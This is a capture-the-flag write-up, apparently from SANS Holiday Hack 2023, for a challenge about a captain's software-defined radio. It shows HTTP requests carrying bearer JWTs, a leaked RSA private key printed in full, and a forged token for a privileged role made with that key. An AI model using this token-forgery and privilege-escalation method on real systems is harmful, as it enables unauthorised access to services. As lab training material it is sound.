 ## Objective
Speak with Chimney Scissorsticks on Steampunk Island about the interesting things the captain is hearing on his new Software Defined Radio. You'll need to assume the GeeseIslandsSuperChiefCommunicationsOfficer role.

## Solution

#### Information Collected

- Captain's Journal https://elfhunt.org/static/images/captainsJournal.png

#### Roles
```
radioUser
radioMonitor
radioDecoder
GeeseIslandsSuperChiefCommunicationsOfficer
```

#### Locations / Paths
```
/jwtDefault/keys/capsPubKey.key
/jwtDefault/rMonitor.tok
/jwtDefault/rDecoder.tok
```

#### Captain's Pub Key
```http
GET /jwtDefault/keys/capsPubKey.key HTTP/2
Host: captainscomms.com
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJISEMgMjAyMyBDYXB0YWluJ3MgQ29tbXMiLCJpYXQiOjE2OTk0ODU3OTUuMzQwMzMyNywiZXhwIjoxODA5OTM3Mzk1LjM0MDMzMjcsImF1ZCI6IkhvbGlkYXkgSGFjayAyMDIzIiwicm9sZSI6InJhZGlvVXNlciJ9.BGxJLMZw-FHI9NRl1xt_f25EEnFcAYYu173iqf-6dgoa_X3V7SAe8scBbARyusKq2kEbL2VJ3T6e7rAVxy5Eflr2XFMM5M-Wk6Hqq1lPvkYPfL5aaJaOar3YFZNhe_0xXQ__k__oSKN1yjxZJ1WvbGuJ0noHMm_qhSXomv4_9fuqBUg1t1PmYlRFN3fNIXh3K6JEi5CvNmDWwYUqhStwQ29SM5zaeLHJzmQ1Ey0T1GG-CsQo9XnjIgXtf9x6dAC00LYXe1AMly4xJM9DfcZY_KjfP-viyI7WYL0IJ_UOtIMMN0u-XO8Q_F3VO0NyRIhZPfmALOM2Liyqn6qYTjLnkg
```
```RSA
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsJZuLJVB4EftUOQN1Auw
VzJyr1Ma4xFo6EsEzrkprnQcdgwz2iMM76IEiH8FlgKZG1U0RU4N3suI24NJsb5w
J327IYXAuOLBLzIN65nQhJ9wBPR7Wd4Eoo2wJP2m2HKwkW5Yadj6T2YgwZLmod3q
n6JlhN03DOk1biNuLDyWao+MPmg2RcxDR2PRnfBartzw0HPB1yC2Sp33eDGkpIXa
cx/lGVHFVxE1ptXP+asOAzK1wEezyDjyUxZcMMmV0VibzeXbxsXYvV3knScr2WYO
qZ5ssa4Rah9sWnm0CKG638/lVD9kwbvcO2lMlUeTp7vwOTXEGyadpB0WsuIKuPH6
uQIDAQAB
-----END PUBLIC KEY-----
```

#### RadioMonitor Token
```http
GET /jwtDefault/rMonitor.tok HTTP/2
Host: captainscomms.com
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJISEMgMjAyMyBDYXB0YWluJ3MgQ29tbXMiLCJpYXQiOjE2OTk0ODU3OTUuMzQwMzMyNywiZXhwIjoxODA5OTM3Mzk1LjM0MDMzMjcsImF1ZCI6IkhvbGlkYXkgSGFjayAyMDIzIiwicm9sZSI6InJhZGlvVXNlciJ9.BGxJLMZw-FHI9NRl1xt_f25EEnFcAYYu173iqf-6dgoa_X3V7SAe8scBbARyusKq2kEbL2VJ3T6e7rAVxy5Eflr2XFMM5M-Wk6Hqq1lPvkYPfL5aaJaOar3YFZNhe_0xXQ__k__oSKN1yjxZJ1WvbGuJ0noHMm_qhSXomv4_9fuqBUg1t1PmYlRFN3fNIXh3K6JEi5CvNmDWwYUqhStwQ29SM5zaeLHJzmQ1Ey0T1GG-CsQo9XnjIgXtf9x6dAC00LYXe1AMly4xJM9DfcZY_KjfP-viyI7WYL0IJ_UOtIMMN0u-XO8Q_F3VO0NyRIhZPfmALOM2Liyqn6qYTjLnkg
```
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJISEMgMjAyMyBDYXB0YWluJ3MgQ29tbXMiLCJpYXQiOjE2OTk0ODU3OTUuMzQwMzMyNywiZXhwIjoxODA5OTM3Mzk1LjM0MDMzMjcsImF1ZCI6IkhvbGlkYXkgSGFjayAyMDIzIiwicm9sZSI6InJhZGlvTW9uaXRvciJ9.f_z24CMLim2JDKf8KP_PsJmMg3l_V9OzEwK1E_IBE9rrIGRVBZjqGpvTqAQQSesJD82LhK2h8dCcvUcF7awiAPpgZpcfM5jdkXR7DAKzaHAV0OwTRS6x_Uuo6tqGMu4XZVjGzTvba-eMGTHXyfekvtZr8uLLhvNxoarCrDLiwZ_cKLViRojGuRIhGAQCpumw6NTyLuUYovy_iymNfe7pqsXQNL_iyoUwWxfWcfwch7eGmf2mBrdEiTB6LZJ1ar0FONfrLGX19TV25Qy8auNWQIn6jczWM9WcZbuOIfOvlvKhyVWbPdAK3zB7OOm-DbWm1aFNYKr6JIRDLobPfiqhKg
```
#### Unlock the Monitor Mode
- Click on the transmitter in the center
- Use the new Radio Monitor token and send that in the authorization
- New Window opens with the Spectrum Display

#### Radio Decoder Token
```
GET /jwtDefault/rDecoder.tok HTTP/2
Host: captainscomms.com
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJISEMgMjAyMyBDYXB0YWluJ3MgQ29tbXMiLCJpYXQiOjE2OTk0ODU3OTUuMzQwMzMyNywiZXhwIjoxODA5OTM3Mzk1LjM0MDMzMjcsImF1ZCI6IkhvbGlkYXkgSGFjayAyMDIzIiwicm9sZSI6InJhZGlvRGVjb2RlciJ9.cnNu6EjIDBrq8PbMlQNF7GzTqtOOLO0Q2zAKBRuza9bHMZGFx0pOmeCy2Ltv7NUPv1yT9NZ-WapQ1-GNcw011Ssbxz0yQO3Mh2Tt3rS65dmb5cmYIZc0pol-imtclWh5s1OTGUtqSjbeeZ2QAMUFx3Ad93gR20pKpjmoeG_Iec4JHLTJVEksogowOouGyDxNAagIICSpe61F3MY1qTibOLSbq3UVfiIJS4XvGJwqbYfLdbhc-FvHWBUbHhAzIgTIyx6kfONOH9JBo2RRQKvN-0K37aJRTqbq99mS4P9PEVs0-YIIufUxJGIW0TdMNuVO3or6bIeVH6CjexIl14w6fg
```
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJISEMgMjAyMyBDYXB0YWluJ3MgQ29tbXMiLCJpYXQiOjE2OTk0ODU3OTUuMzQwMzMyNywiZXhwIjoxODA5OTM3Mzk1LjM0MDMzMjcsImF1ZCI6IkhvbGlkYXkgSGFjayAyMDIzIiwicm9sZSI6InJhZGlvRGVjb2RlciJ9.cnNu6EjIDBrq8PbMlQNF7GzTqtOOLO0Q2zAKBRuza9bHMZGFx0pOmeCy2Ltv7NUPv1yT9NZ-WapQ1-GNcw011Ssbxz0yQO3Mh2Tt3rS65dmb5cmYIZc0pol-imtclWh5s1OTGUtqSjbeeZ2QAMUFx3Ad93gR20pKpjmoeG_Iec4JHLTJVEksogowOouGyDxNAagIICSpe61F3MY1qTibOLSbq3UVfiIJS4XvGJwqbYfLdbhc-FvHWBUbHhAzIgTIyx6kfONOH9JBo2RRQKvN-0K37aJRTqbq99mS4P9PEVs0-YIIufUxJGIW0TdMNuVO3or6bIeVH6CjexIl14w6fg
```
#### Decoded the Messages using a decoder role and find the folder name from the decoded message 
```
TH3CAPSPR1V4T3F0LD3R
```
#### Get the PRIV key

```http
GET /jwtDefault/keys/TH3CAPSPR1V4T3F0LD3R/capsPrivKey.key HTTP/2
Host: captainscomms.com
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJISEMgMjAyMyBDYXB0YWluJ3MgQ29tbXMiLCJpYXQiOjE2OTk0ODU3OTUuMzQwMzMyNywiZXhwIjoxODA5OTM3Mzk1LjM0MDMzMjcsImF1ZCI6IkhvbGlkYXkgSGFjayAyMDIzIiwicm9sZSI6InJhZGlvRGVjb2RlciJ9.cnNu6EjIDBrq8PbMlQNF7GzTqtOOLO0Q2zAKBRuza9bHMZGFx0pOmeCy2Ltv7NUPv1yT9NZ-WapQ1-GNcw011Ssbxz0yQO3Mh2Tt3rS65dmb5cmYIZc0pol-imtclWh5s1OTGUtqSjbeeZ2QAMUFx3Ad93gR20pKpjmoeG_Iec4JHLTJVEksogowOouGyDxNAagIICSpe61F3MY1qTibOLSbq3UVfiIJS4XvGJwqbYfLdbhc-FvHWBUbHhAzIgTIyx6kfONOH9JBo2RRQKvN-0K37aJRTqbq99mS4P9PEVs0-YIIufUxJGIW0TdMNuVO3or6bIeVH6CjexIl14w6fg
```

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
X-Cloud-Trace-Context: df34efb3be84e788de69ee96691baf3b;o=1
Date: Tue, 26 Dec 2023 19:22:18 GMT
Server: Google Frontend
Content-Length: 1704
Via: 1.1 google, 1.1 google
Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQCwlm4slUHgR+1Q
5A3UC7BXMnKvUxrjEWjoSwTOuSmudBx2DDPaIwzvogSIfwWWApkbVTRFTg3ey4jb
g0mxvnAnfbshhcC44sEvMg3rmdCEn3AE9HtZ3gSijbAk/abYcrCRblhp2PpPZiDB
kuah3eqfomWE3TcM6TVuI24sPJZqj4w+aDZFzENHY9Gd8Fqu3PDQc8HXILZKnfd4
MaSkhdpzH+UZUcVXETWm1c/5qw4DMrXAR7PIOPJTFlwwyZXRWJvN5dvGxdi9XeSd
JyvZZg6pnmyxrhFqH2xaebQIobrfz+VUP2TBu9w7aUyVR5Onu/A5NcQbJp2kHRay
4gq48fq5AgMBAAECggEATlcmYJQE6i2uvFS4R8q5vC1u0JYzVupJ2sgxRU7DDZiI
adyHAm7LVeJQVYfYoBDeANC/hEGZCK7OM+heQMMGOZbfdoNCmSNL5ha0M0IFTlj3
VtNph9hlwQHP09FN/DeBWruT8L1oauIZhRcZR1VOuexPUm7bddheMlL4lRp59qKj
9k1hUQ3R3qAYST2EnqpEk1NV3TirnhIcAod53aAzcAqg/VruoPhdwmSv/xrfDS9R
DCxOzplHbVQ7sxZSt6URO/El6BrkvVvJEqECMUdON4agNEK5IYAFuIbETFNSu1TP
/dMvnR1fpM0lPOXeUKPNFveGKCc7B4IF2aDQ/CvD+wKBgQDpJjHSbtABNaJqVJ3N
/pMROk+UkTbSW69CgiH03TNJ9RflVMphwNfFJqwcWUwIEsBpe+Wa3xE0ZatecEM9
4PevvXGujmfskst/PuCuDwHnQ5OkRwaGIkujmBaNFmpkF+51v6LNdnt8UPGrkovD
onQIEjmvS1b53eUhDI91eysPKwKBgQDB5RVaS7huAJGJOgMpKzu54N6uljSwoisz
YJRY+5V0h65PucmZHPHe4/+cSUuuhMWOPinr+tbZtwYaiX04CNK1s8u4qqcX2ZRD
YuEv+WNDv2e1XjoWCTxfP71EorywkEyCnZq5kax3cPOqBs4UvSmsR9JiYKdeXfaC
VGiUyJgLqwKBgQDL+VZtO/VOmZXWYOEOb0JLODCXUdQchYn3LdJ3X26XrY2SXXQR
wZ0EJqk8xAL4rS8ZGgPuUmnC5Y/ft2eco00OuzbR+FSDbIoMcP4wSYDoyv5IIrta
bnauUUipdorttuIwsc/E4Xt3b3l/GV6dcWsCBK/i5I7bW34yQ8LejTtGsQKBgAmx
NdwJpPJ6vMurRrUsIBQulXMMtx2NPbOXxFKeYN4uWhxKITWyKLUHmKNrVokmwelW
Wiodo9fGOlvhO40tg7rpfemBPlEG405rBu6q/LdKPhjm2Oh5Fbd9LCzeJah9zhVJ
Y46bJY/i6Ys6Q9rticO+41lfk344HDZvmbq2PEN5AoGBANrYUVhKdTY0OmxLOrBb
kk8qpMhJycpmLFwymvFf0j3dWzwo8cY/+2zCFEtv6t1r7b8bjz/NYrwS0GvEc6Bj
xVa9JIGLTKZt+VRYMP1V+uJEmgSnwUFKrXPrAsyRaMcq0HAvQOMICX4ZvGyzWhut
UdQXV73mNwnYl0RQmBnDOl+i
-----END PRIVATE KEY-----

```
#### Forging new token for Captain's Transmitter

- Got to jwt.io and present a new token
- In the role we use ```"role": "GeeseIslandsSuperChiefCommunicationsOfficer"```
- Generate a new auth token
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJISEMgMjAyMyBDYXB0YWluJ3MgQ29tbXMiLCJpYXQiOjE2OTk0ODU3OTUuMzQwMzMyNywiZXhwIjoxODA5OTM3Mzk1LjM0MDMzMjcsImF1ZCI6IkhvbGlkYXkgSGFjayAyMDIzIiwicm9sZSI6IkdlZXNlSXNsYW5kc1N1cGVyQ2hpZWZDb21tdW5pY2F0aW9uc09mZmljZXIifQ.N-8MdT6yPFge7zERpm4VdLdVLMyYcY_Wza1TADoGKK5_85Y5ua59z2Ke0TTyQPa14Z7_Su5CpHZMoxThIEHUWqMzZ8MceUmNGzzIsML7iFQElSsLmBMytHcm9-qzL0Bqb5MeqoHZYTxN0vYG7WaGihYDTB7OxkoO_r4uPSQC8swFJjfazecCqIvl4T5i08p5Ur180GxgEaB-o4fpg_OgReD91ThJXPt7wZd9xMoQjSuPqTPiYrP5o-aaQMcNhSkMix_RX1UGrU-2sBlL01FxI7SjxPYu4eQbACvuK6G2wyuvaQIclGB2Qh3P7rAOTpksZSex9RjtKOiLMCafTyfFng
```


![image](https://github.com/dibsy/sans-holiday-hack-2023/assets/1623243/64f8f87a-0786-40a8-927f-52ead13bd889)

#### Radio Fax Decoder
```
dcdFX.mp4 - 10426 Hz

```
#### Get Arrested
```
Frequency : 10426 , Go-Date: 1224, Go-Time: 1200
```

